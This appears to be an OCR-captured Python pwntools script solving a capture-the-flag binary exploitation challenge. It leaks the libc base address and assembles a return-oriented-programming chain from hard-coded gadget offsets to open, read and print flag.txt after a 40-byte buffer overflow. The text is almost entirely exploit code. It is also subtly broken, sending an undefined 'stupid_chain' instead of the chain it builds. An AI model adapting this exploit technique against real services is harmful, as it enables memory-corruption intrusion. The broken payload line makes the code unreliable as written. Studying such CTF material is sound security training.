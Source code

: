 ```python
def exploit(p,e,l):

    pad = b"A" * 40

    ru(p,b"at ")
    l.address = int(rl(p).strip(b"\n"),16) - l.sym["system"]
    log.info(f"Leaked libc base {hex(l.address)}")


    r = ROP(l)
    pop_rdi = r.find_gadget(["pop rdi", "ret"])[0]

    #flag = b"/srv/app/flag.txt"
    #0x000000000002be51 : pop rsi ; ret
    pop_rsi = l.address + 0x2be51
    #0x00000000000904a9 : pop rdx ; pop rbx ; ret
    pop_rdx_rbx = l.address + 0x904a9
    #0x000000000003d1ee : pop rcx ; ret
    pop_rcx = l.address + 0x3d1ee

    one_gadget = l.address + 0xebd43

    flag = b"flag.txt"

    payload = flag

    writeable_addr = l.address + 0x21ace8

    chain = p64(pop_rdi) + p64(writeable_addr)
    chain += p64(l.sym["gets"])

    # Open /srv/app/flag.txt
    chain += p64(pop_rdi) + p64(writeable_addr)
    chain += p64(pop_rsi) + p64(0)
    chain += p64(l.sym["open"])

    fd = 3 # Possibly brute force this

    # Read in flag
    chain += p64(pop_rdi) + p64(fd) + p64(pop_rsi) + p64(writeable_addr)
    chain += p64(pop_rdx_rbx) + p64(0x30) + p64(0)
    chain += p64(l.sym["read"])

    # Puts flag
    chain += p64(pop_rdi) + p64(writeable_addr)
    chain += p64(l.sym["puts"])

    #sl(p,pad+chain)
    sl(p,pad+stupid_chain)

    sl(p,payload)
    p.interactive()


if __name__=="__main__":
    file = args.BIN

    p = start(file)
    e = context.binary = ELF(file)
    l = ELF("./libc.so.6")

    exploit(p,e,l)

```
